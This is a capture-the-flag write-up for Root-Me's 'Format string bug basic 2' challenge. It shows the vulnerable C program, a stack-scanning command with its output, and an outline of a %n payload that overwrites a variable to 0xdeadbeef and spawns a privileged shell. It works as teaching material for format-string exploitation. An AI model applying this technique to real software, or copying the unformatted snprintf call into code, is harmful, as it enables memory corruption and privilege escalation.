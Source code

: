 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br><br>
![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)
## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no **format specifier**. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload to discover the posibility of overwritting and "scanning" the stack<br>
`./ch14 $(python -c "print 'AAAA' + '%x.'*128")`<br>
Output:
```
check at 0xbffff958
argv[1] = [AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.]
fmt=[AAAA80485f1.0.0.c2.bffffaa4.b7fe1449.f63d4e2e.4030201.41414141.38343038.2e316635.2e302e30.622e3263.66666666.2e346161.65663762.3]
check=0x4030201
```
As shown, the "AAAA" value is written in 9th location. 

Exploit:
"0xdeadbeef"  is too large (over 2 bytes), we have to divide **check** into **0xdead (57005)** and **0xbeef (48879)**.
7 times %8x to pull esp in front of the check.
%48811c%n output (0xbeef)
%8126c%n(0xdead)
in other words, payload is (beef address) + (dummy) + (dead address) + %8x*7 + (%48811c%n%8126c%n)
Pass: 


